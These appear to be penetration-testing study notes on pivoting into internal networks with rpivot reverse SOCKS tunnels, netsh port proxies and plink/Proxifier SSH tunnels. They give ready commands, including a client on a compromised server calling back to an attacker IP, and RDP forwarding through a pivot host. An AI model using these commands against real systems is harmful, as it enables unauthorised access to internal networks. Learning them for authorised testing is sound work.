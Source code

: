- `Rpivot` is a reverse SOCKS proxy tool that will let you connect to internal web server through an external pivot host.
	- `git clone https://github.com/klsecservices/rpivot.git`
- `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`
	- This will have the attack machine serve on port 9999 for the victim to connect to
- Transfer `rpivot` directory to web server victim with `scp`
- on victim server: `python2.7 client.py --server-ip [attacker-IP] --server-port 9999`
- Now use `proxychains firefox-esr [internal_IP]:80` to connect to the internal webserver.
	- You can add NTLM authentication if necessary for the internal server.
	- Add the following in addition to the arguments above: `--ntlm-proxy-ip` , `--ntlm-proxy-port` , `--domain` , `--username` , `--password` 

#### Windows Port Forward with Netsh
(sometimes requires command prompt to be run as administrator to use netsh)

- `Netsh` is a Windows tool that can do several network config tasks such as find routes, view firewall configs, add proxies, and create port forwarding rules. If we have a Windows pivot host, `Netsh` affords us these options for pivoting.
- Port forward: `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=[pivot_IP] connectport=3389 connectaddress=[internal_IP]`
- To verify forwarding: `netsh.exe interface portproxy show v4tov4`
- You can now connect to the Windows pivot host with the attacking machine and RDP to the internal host through the port we forwarded (`[pivot_IP]:8080`)

#### From a Windows Attack Host

- `plink.exe` is a PuTTY Link tool that acts as an ssh server for linux hosts. Before 2018, Windows did not have an ssh client and PuTTY was necessary.
- `plink -ssh -D 9050 hostname@IP_address`
	- This would be used from a Windows attack host to a victim Linux server.
	- It establishes local port 9050 for dynamic port forwarding through ssh on the linux target.
- `Proxifier` can be used to start a SOCKS tunnel via the ssh session from `plink`
	- Configure the SOCKS server for 127.0.0.1 and the port 9050 we used earlier. Start `mstsc.exe` to begin an RDP session with a Windows target that allows RDP.